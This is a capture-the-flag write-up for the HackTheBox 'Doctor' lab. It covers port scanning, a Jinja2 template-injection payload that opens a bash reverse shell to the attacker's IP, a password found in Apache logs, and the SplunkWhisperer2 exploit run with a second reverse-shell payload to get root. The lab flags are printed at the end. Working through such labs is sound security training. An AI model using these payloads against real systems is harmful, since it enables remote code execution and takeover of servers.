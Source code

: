 ```yaml
---
layout: post
title: "Doctor "
lang: en
categories:
  - writeups
tags:
  - security
  - writeups
  - htb
  - pe
  - linux
  - ssti
  - splunk
  - python
  - jinja
date: 2021/02/15 20:47:00
thumbnail: /img/HackTheBox/doctor.png

toc: true
---
```

# Information



- **Name:** Doctor
- **Profile:** [www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/278)
- **Difficulty:** Easy
- **OS:** Linux
- **Points:** 20

![Doctor](/img/HackTheBox/doctor.png)



## Overview

Install tools used in this WU on BlackArch Linux:

```
$ pacman -S nmap pwncat payloadsallthethings
```

## Network enumeration

Port and service scan with nmap:

```plaintext
# Nmap 7.91 scan initiated Sun Feb 14 19:31:04 2021 as: nmap -sSVC -p- -v -oA nmap_scan 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.056s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23 4e5c 546d 8895 0f5f 8f42 5e90 6787
|_SHA-1: 7ec9 1bb7 343f f7f6 bdd7 d015 d720 6f6f 19e2 098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 14 19:33:51 2021 -- 1 IP address (1 host up) scanned in 166.52 seconds
```

## Web discovery

Browsing with the IP address we have nothing fancy but we can find a reference
to `doctors.htb`.

```plaintext
$ curl -s http://10.10.10.209/ | grep doctor
              <strong>info@doctors.htb</strong>
```

So lets' add it to `/etc/hosts`.

```plaintext
$ grep doctor /etc/hosts
10.10.10.209 doctors.htb
```

Now browsing http://doctors.htb/ we access an app called _Doctor Secure Messaging_.

We can register an account and login.

At http://doctors.htb/post/new there is a feature where we can post a message.

There is a HTML comment:

```html
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```

The source code of http://doctors.htb/archive is displaying the following XML
content:

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0">
    <channel>
    <title>Archive</title>
```

It looks like a RSS feed. If I create a post, an entry appears under the RSS
feed:

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <rss version="2.0">
    <channel>
     <title>Archive</title>
     <item><title>Test title</title></item>

            </channel>
```

## Web exploitation: SSTI

We can try to inject a [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
payload to see if it is executed and reflected.

As the box is not realistic and most challenge "developers" only know
python and never try another language so it's almost safe to assume the
web app is coded in python and the template engine will be Jinja2.

Let's try `{{ 7*7 }}`, on the RSS feed we can see `<item><title>49</title></item>`
so we know the payload is executed.

Let's directly try a simple RCE to get a reverse shell:

```python
{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/9999 0>&1"').read()}}
```

After triggering the RSS feed I received the connection on my listener:

```plaintext
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:50334 (family 2/IPv4, TCP)
bash: cannot set terminal process group (864): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

## Privilege Escalation of Machine : from web to shaun

Interestingly the user we have is in the `adm` group, this means it can
read `/var/log/`.

```plaintext
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Let's check users with a shell to know which user target next:

```plaintext
web@doctor:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

As we are in `adm` group I directly targeted `/var/log/`:

```plaintext
web@doctor:~$ grep -r password /var/logs
...
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
...
```

Warning: guessing involved here for 2 things:

1. the author thinks that it's common for passwords to be accidentally entered into the email field
2. find the this password is owned by `shaun`

```plaintext
web@doctor:~$ su shaun
Password: Guitar123

shaun@doctor:/home/web$ cd

shaun@doctor:~$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

## Privilege Escalation of Machine : from shaun to root

We have not used Splunk yet, it must be involved in next step.

A French pentester, _Clément Notin_, wrote an article entitled
[Splunk Universal Forwarder Hijacking 2: SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)
and also made available an associated [exploit](https://github.com/cnotin/SplunkWhisperer2).

Let's check the prerequisites:

- Universal Forwarder Agents running (on port 8089)
- `splunkd` is running as root
- credentials, guessing again, shaun creds are re-used for the splunk agent (totally realistic)

```plaintext
$ ps -ef f | grep splunk
root        1141       1  0 21:19 ?        Sl     0:01 splunkd -p 8089 start
root        1143    1141  0 21:19 ?        Ss     0:00  \_ [splunkd pid=1141] splunkd -p 8089 start [process-runner]
```

Let's exploit the guesbox now:

```plaintext
$ git clone https://github.com/cnotin/SplunkWhisperer2
$ cd SplunkWhisperer2/PySplunkWhispherer2/
$ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.169 --username shaun --password Guitar123 --payload '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/8888 0>&1"'
```

Enjoy:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:35294 (family 2/IPv4, TCP)
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)

root@doctor:/# cat /root/root.txt
2011c879032a897c9d4d517f7e448839

root@doctor:/# cat /home/shaun/user.txt
95cb0c0321ccb5c5cc4d617b2c4cb2bf
```
